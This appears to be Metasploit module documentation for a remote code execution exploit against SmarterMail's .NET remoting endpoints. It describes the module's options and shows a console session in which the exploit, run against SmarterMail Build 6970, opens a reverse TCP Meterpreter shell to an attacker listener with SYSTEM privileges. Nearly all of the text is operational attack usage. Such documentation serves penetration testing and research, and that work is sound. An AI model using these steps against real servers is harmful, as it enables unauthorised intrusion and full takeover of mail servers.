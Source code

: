 ## Options

### TARGET (Required)

0. Target 0 (default) - Windows Command uses a default PowerShell payload to execute
code and open a Meterpreter session. However, any desired payload can be chosen. Choose with `set TARGET 0`.
1. Target 1 - x86/x64 Windows CmdStager uses a CmdStager with default `vbs` stager flavor to execute code
and open a Meterpreter session. Choose with `set TARGET 1`.

### ENDPOINT (Required)

Choose one of three exposed .NET remoting endpoints, either `Servers`, `Spool` or `Mail`.
The default is `Servers`, but any one of the three will do.

### RPORT (Required)

This is the port for the SmarterMail HTTP server, which is default on port 9998.
Although this port is not required for exploitation, it is required for checking the
vulnerability and version/build number of the SmarterMail software.

### TARGETURI (Required)

This is the base path of the SmarterMail HTTP server. The vulnerability check follows the
redirect from base path `/` to the login page at `/interface/root#/login`, but this option
is provided in case the login page is located at a different URI.

### TCP_PORT (Required)

This is the TCP port where the .NET remoting endpoints are located, and is required for
sending serialized data and Meterpreter payloads. The default port is 17001.

## Scenarios

### SmarterMail Build 6970 on Windows 10 Pro

* Using default TARGET 0 - Windows Command

```
msf > use exploit/windows/http/smartermail_rce 
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:51164) at 2023-07-07 03:30:47 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
```